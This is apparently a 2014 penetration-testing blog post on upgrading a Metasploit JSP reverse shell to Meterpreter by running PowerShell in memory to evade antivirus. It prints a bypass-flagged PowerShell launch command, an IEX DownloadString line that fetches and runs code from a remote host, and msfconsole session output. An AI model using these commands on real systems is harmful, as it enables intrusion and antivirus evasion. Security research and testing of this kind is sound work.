 ```yaml
---
categories:
- metasploit
comments: false
date: "2014-03-10T22:31:47Z"
title: meterpreter shell upgrades using powershell
---
```


One of my primary goals during development of [clusterd](https://github.com/hatRiot/clusterd) was ensuring reliability and covertness during remote deploys.  It's no secret that antivirus routinely eats vanilla meterpreter shells.  For this, the `--gen-payload` flag generates a war file with `java/jsp_shell_reverse_tcp` tucked inside.  This is used due to it being largely undetected by AV, and our environments are perfectly suited for it.  However, Meterpreter is a fantastic piece of software, and it'd be nice to be able to elevate from this simple JSP shell into it.

Metasploit has a solution for this, sort of.  `sessions -u` can be used to upgrade an existing shell session into a full-blown Meterpreter.  Unfortunately, the current implementation uses `Rex::Exploitation::CmdStagerVBS`, which writes the executable to disk and executes it.  This is almost always immediately popped by most enterprise-grade (and even most consumer grade) AV's.  For this, we need a new solution.

The easiest solution is Powershell; this allows us to execute shellcode completely in-memory, without ever bouncing files against disk.  I used Obscure Security's canonical [post](http://obscuresecurity.blogspot.com/2013/03/powersploit-metasploit-shells.html) on it for my implementation.  The only problem really is portability, as Powershell doesn't exist on Windows XP.  This could be mitigated by patching in shellcode via Java, but that's another post for another time.

Right, so how's this work?  We essentially execute a Powershell command in the running session (our generic shell) that fetches a payload from a remote server and executes it.  Our payload in this case is [Invoke-Shellcode](https://raw.github.com/mattifestation/PowerSploit/master/CodeExecution/Invoke-Shellcode.ps1), from the PowerSploit package.  This bit of code will generate our reverse HTTPS meterpreter shell and inject it into the current process ID.  Our command looks like this:

```
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc %s"
```

Our encoded payload is:

```
iex (New-Object Net.WebClient).DownloadString('http://%s:%s/')
```

IEX, or Invoke-Expression, is just an eval operation.  In this case, we're fetching a URL and executing it.  This is a totally transparent, completely in-memory solution.  Let's have a look at it running:

```
msf exploit(handler) > sessions -l

Active sessions
===============

  Id  Type         Information                                                                       Connection
  --  ----         -----------                                                                       ----------
  1   shell linux  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  192.168.1.6:4444 -> 192.168.1.102:60911 (192.168.1.102)

msf exploit(handler) > 
```
